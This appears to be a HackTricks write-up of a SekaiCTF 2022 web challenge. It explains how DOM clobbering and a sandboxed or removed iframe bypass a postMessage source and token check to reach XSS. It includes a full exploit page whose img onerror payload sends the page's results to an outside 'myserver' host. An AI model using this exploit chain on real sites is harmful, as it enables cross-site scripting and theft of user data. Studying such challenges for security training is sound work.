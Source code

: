 # Bypassing SOP with Iframes - 2

{{#include ../../banners/hacktricks-training.md}}

## Iframes in SOP-2

In the [**solution**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc/solution) for this [**challenge**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic_) proposes a similar method to the previous section. Let's check it.

In this challenge the attacker needs to **bypass** this:

```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```

If he does, he can send a **postmessage** with HTML content that is going to be written in the page with **`innerHTML`** without sanitation (**XSS**).

The way to bypass the **first check** is by making **`window.calc.contentWindow`** to **`undefined`** and **`e.source`** to **`null`**:

- **`window.calc.contentWindow`** is actually **`document.getElementById("calc")`**. You can clobber **`document.getElementById`** with **`<img name=getElementById />`** (note that Sanitizer API -[here](https://wicg.github.io/sanitizer-api/#dom-clobbering)- is not configured to protect against DOM clobbering attacks in its default state).
  - Therefore, you can clobber **`document.getElementById("calc")`** with **`<img name=getElementById /><div id=calc></div>`**. Then, **`window.calc`** will be **`undefined`**.
  - Now, we need **`e.source`** to be **`undefined`** or **`null`** (because `==` is used instead of `===`, **`null == undefined`** is **`True`**). Getting this is "easy". If you create an **iframe** and **send** a **postMessage** from it and immediately **remove** the iframe, **`e.origin`** is going to be **`null`**. Check the following code

```javascript
let iframe = document.createElement("iframe")
document.body.appendChild(iframe)
window.target = window.open("http://localhost:8080/")
await new Promise((r) => setTimeout(r, 2000)) // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`)
document.body.removeChild(iframe) //e.origin === null
```

In order to bypass the **second check** about token is by sending **`token`** with value `null` and making **`window.token`** value **`undefined`**:

- Sending `token` in the postMessage with value `null` is trivial.
- **`window.token`** in calling the function **`getCookie`** which uses **`document.cookie`**. Note that any access to **`document.cookie`** in **`null`** origin pages tigger an **error**. This will make **`window.token`** have **`undefined`** value.

The final solution by [**@terjanq**](https://twitter.com/terjanq) is the [**following**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html):

```html
<html>
  <body>
    <script>
      // Abuse "expr" param to cause a HTML injection and
      // clobber document.getElementById and make window.calc.contentWindow undefined
      open(
        'https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"'
      )

      function start() {
        var ifr = document.createElement("iframe")
        // Create a sandboxed iframe, as sandboxed iframes will have origin null
        // this null origin will document.cookie trigger an error and window.token will be undefined
        ifr.sandbox = "allow-scripts allow-popups"
        ifr.srcdoc = `<script>(${hack})()<\/script>`

        document.body.appendChild(ifr)

        function hack() {
          var win = open("https://obligatory-calc.ctf.sekai.team")
          setTimeout(() => {
            parent.postMessage("remove", "*")
            // this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
            // token=null equals to undefined and e.source will be null so null == undefined
            win.postMessage(
              {
                token: null,
                result:
                  "<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>",
              },
              "*"
            )
          }, 1000)
        }

        // this removes the iframe so e.source becomes null in postMessage event.
        onmessage = (e) => {
          if (e.data == "remove") document.body.innerHTML = ""
        }
      }
      setTimeout(start, 1000)
    </script>
  </body>
</html>
```

{{#include ../../banners/hacktricks-training.md}}



